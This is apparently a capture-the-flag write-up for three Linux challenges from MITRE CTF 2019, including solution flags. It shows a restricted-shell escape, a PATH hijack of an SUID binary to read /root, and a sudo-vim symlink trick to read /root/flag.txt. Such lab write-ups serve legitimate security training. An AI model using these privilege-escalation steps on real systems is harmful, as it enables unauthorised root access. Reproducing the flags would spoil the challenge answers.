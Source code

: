 # Linux Solutions
## Table of Contents
1. [Clean Room (50 points)](#Clean-Room)
2. [Getting A Head (100 points)](#Getting-A-Head)
3. [January 8, 2014 (150 points)](#January-8-2014)

# Clean Room
## Problem
> ssh ctf@138.247.13.108

## Process
 - Break out of the restricted shell (rshell)
``` 
ssh ctf@138.247.13.108 -t "bash --noprofile" 
```
 - No netstat available, let's try to look in /proc/net/tcp
   - https://staaldraad.github.io/2017/12/20/netstat-without-netstat/
   - Nothing special found... wompwomp
```
grep -v "rem_address" /proc/net/tcp  | awk 'function hextodec(str,ret,n,i,k,c){
	ret = 0
	n = length(str)
	for (i = 1; i <= n; i++) {
    	c = tolower(substr(str, i, 1))
    	k = index("123456789abcdef", c)
    	ret = ret * 16 + k
	}
	return ret
} {x=hextodec(substr($2,index($2,":")-2,2)); for (i=5; i>0; i-=2) x = x"."hextodec(substr($2,i,2))}{print x":"hextodec(substr($2,index($2,":")+1,4))}'
```
 - Let's see if there's a flag file under root..

![linux50-flag](https://github.com/ryokubaka/CTF-Write-Ups/blob/master/MITRE-CTF-2019/Linux/Images/linux50-cleanroom-flag.jpg)

## Flag
MCA{ieHaisoh4eif2ae}

# Getting A Head
## Problem
> SSH into box

## Process
 - https://reverseengineering.stackexchange.com/questions/3815/reversing-elf-64-bit-lsb-executable-x86-64-gdb
 - readelf -h HackMe
   - Entry point is:

![linux100-entry](https://github.com/ryokubaka/CTF-Write-Ups/blob/master/MITRE-CTF-2019/Linux/Images/linux100-gettingahead-entry.jpg)

 - gdb HackMe
   - break "0x4005450"
   - disas 0x400450, +50

   ![linux100-gdb1](https://github.com/ryokubaka/CTF-Write-Ups/blob/master/MITRE-CTF-2019/Linux/Images/linux100-gettingahead-gdb1.jpg)

   - main() must be at 0x40056
 - It calls the Head command, it is SUID, and I can export the PATH variable
   - Create a new file called 'head' in my own directory
     ```
     - mkdir /homt/ctf/bin
     - echo '#!/bin/bash' > head
     - echo 'ls -lisa /root' >> head
     - chmod 777 head
     - export PATH="/home/ctf/bin:/home/ctf/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/sbin:/bin:/usr/games:/usr/local/games"
     ```
    - Verify that head will run in my script

     ![linux100-gdb2](https://github.com/ryokubaka/CTF-Write-Ups/blob/master/MITRE-CTF-2019/Linux/Images/linux100-gettingahead-gdb2.jpg)

     ![linux100-gdb3](https://github.com/ryokubaka/CTF-Write-Ups/blob/master/MITRE-CTF-2019/Linux/Images/linux100-gettingahead-gdb3.jpg)

    - Let's edit head to cat the flag!

    ![linux100-flag](https://github.com/ryokubaka/CTF-Write-Ups/blob/master/MITRE-CTF-2019/Linux/Images/linux100-gettingahead-flag.jpg)

## Flag
MCA{ON5cahqu4ooguaw}

# January 8, 2014
## Problem
> SSH into box

## Process
![linux150-jan8](https://github.com/ryokubaka/CTF-Write-Ups/blob/master/MITRE-CTF-2019/Linux/Images/linux150-jan8.jpg)

 - https://www.exploit-db.com/exploits/37710
 - sudo from January 8, 2014
 - cat /etc/sudoers
 - Following line was already included:
 > ctf ALL=(root) NOPASSWD: /usr/bin/vim /home/ctf/*/*/HackMe2.txt
```
 - mkdir /home/ctf/test
 - mkdir /home/ctf/test/test
 # create symbolic link
   - ln -s /root/flag.txt HackMe2.txt
 - sudo /usr/bin/vim /home/ctf/*/*/HackMe2.txt
```
## Flag
MCA{ohghov1ieli7Eo2}